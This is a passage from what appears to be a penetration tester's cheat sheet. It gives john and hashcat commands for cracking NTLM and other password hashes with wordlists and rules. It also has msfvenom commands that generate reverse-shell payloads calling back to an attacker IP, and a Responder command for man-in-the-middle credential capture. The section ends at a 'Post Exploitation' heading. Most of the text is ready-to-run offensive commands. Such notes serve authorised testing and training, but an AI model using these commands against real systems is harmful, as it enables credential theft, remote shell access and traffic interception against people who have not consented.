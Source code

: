     #my favorite rule to add:
    john --wordlist=wordlist.txt --rules=jumbo --stdout > wordlist-modified.txt

    hashcat --force cewl.wordlist -r /usr/share/hashcat/rules/best64.rule --stdout > hashcat_words

    https://github.com/praetorian-inc/Hob0Rules
    ###hob064 This ruleset contains 64 of the most frequent password patterns
    hashcat -a 0 -m 1000 <NTLMHASHES> wordlists/rockyou.txt -r hob064.rule -o cracked.txt

    ###d3adhob0 This ruleset is much more extensive and utilizes many common password structure ideas
    hashcat -a 0 -m 1000 <NTLMHASHES> wordlists/english.txt -r d3adhob0.rule -o cracked.txt

    #adding John rules
    john --wordlist=wordlist.txt --rules --stdout > wordlist-modified.txt
    john --wordlist=wordlist.txt --rules=best64 --stdout > wordlist-modified.txt
    ```

- john the ripper - password cracker ([cheat sheet](https://drive.google.com/viewerng/viewer?url=https://countuponsecurity.files.wordpress.com/2016/09/jtr-cheat-sheet.pdf)) ([Jumbo community version](https://github.com/openwall/john))

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
    #after john finished, ask him to show
    john hashes.txt --show

    john 127.0.0.1.pwdump --wordlist=dictionary.txt --rules=Jumbo #with jumbo rules from https://github.com/openwall/john
    ```

    [CyberChef](https://gchq.github.io/CyberChef/)

    [CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)

    [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)

    [Cipher Identifier (online tool) | Boxentriq](https://www.boxentriq.com/code-breaking/cipher-identifier)

- msfvenom(kali) - tool to create malware

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=10.10.10.14 LPORT=4444 -f aspx > ex.aspx

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
    ```

- [responder (imapcket)](https://www.notion.so/responder-imapcket-b7bdbbb91ce74e98834dd88ec1715528) - MITM - listening in the background and wait for a failed dns request

    ```bash
    responder -I eth0 -rdwv #Run Responder.py for the length of the engagement while you're working on other attack vectors.
    ```

# Post Exploitation
